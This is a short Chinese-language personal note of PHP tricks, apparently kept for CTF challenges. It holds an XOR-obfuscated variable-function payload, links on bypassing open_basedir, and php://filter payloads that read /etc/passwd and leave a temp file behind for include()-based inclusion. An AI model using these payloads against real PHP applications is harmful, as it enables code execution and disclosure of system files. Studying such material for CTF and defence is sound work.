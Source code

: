 php的tips

[TOC]



- ###### php的花括号解析输入，来执行函数get_the_flag，最终payload

```
?_=${%fe%fe%fe%fe^%a1%b9%bb%aa}{%fe}();&%fe=get_the_flag
就是_=${_GET}{%fe}()
php会自动解析这段代码，因为有{}


```

###### php open_basedir bypass的poc

[从PHP底层看open_basedir bypass · sky's blog (skysec.top)](https://skysec.top/2019/04/12/从PHP底层看open-basedir-bypass/)



[关于php文件操作的几个小trick - tr1ple - 博客园 (cnblogs.com)](https://www.cnblogs.com/tr1ple/p/11301743.html)



###### include() 临时文件上传包含

```
php < 7.2 

php://filter/string.strip_tags/resource=/etc/passwd

php7 老版本通杀
php://filter/convert.quoted-printable-encode/resource=data://,%bfAAAAAAAAAAAAAAAAAAAAAAA%ff%ff%ff%ff%ff%ff%ff%ffAAAAAAAAAAAAAAAAAAAAAAAA
 

```

有py脚本。

再

![1708950820205](C:\Users\86176\AppData\Roaming\Typora\typora-user-images\1708950820205.png)

![1708950803491](C:\Users\86176\AppData\Roaming\Typora\typora-user-images\1708950803491.png)

每次上传完会在/tem中留下一个文件，Include这个文件。文件名访问dir.php得到

#### creat_funtions()

